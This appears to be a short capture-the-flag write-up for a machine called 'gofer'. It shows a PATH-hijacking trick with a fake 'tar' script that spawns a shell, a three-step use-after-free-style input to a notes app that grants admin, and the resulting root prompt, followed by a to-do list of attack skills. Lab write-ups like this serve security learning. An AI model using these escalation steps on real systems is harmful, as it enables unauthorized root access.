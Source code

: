 tricking tar:
```bash
tbuckley@gofer:~$ export PATH=/home/tbuckley:$PATH
tbuckley@gofer:~$ ls
tar
tbuckley@gofer:~$ cat tar
#!/bin/bash
/bin/bash
```

notes app:
1. create user
2. delete user
3. create note: AAAAAAAAAAAAAAAAAAAAAAAAadmin

then rooted
```bash
root@gofer:~# id
uid=0(root) gid=0(root) groups=0(root),1002(tbuckley),1004(dev)
root@gofer:~#
```

## TODOs
- tcpdump sniffing
- crack httpasswd
- ip address encoding
- url encoding
- email template/headers
- gopher protocol/proxy
- reversing elf skills needed (Ghidra, radare2, frida, ida pro)
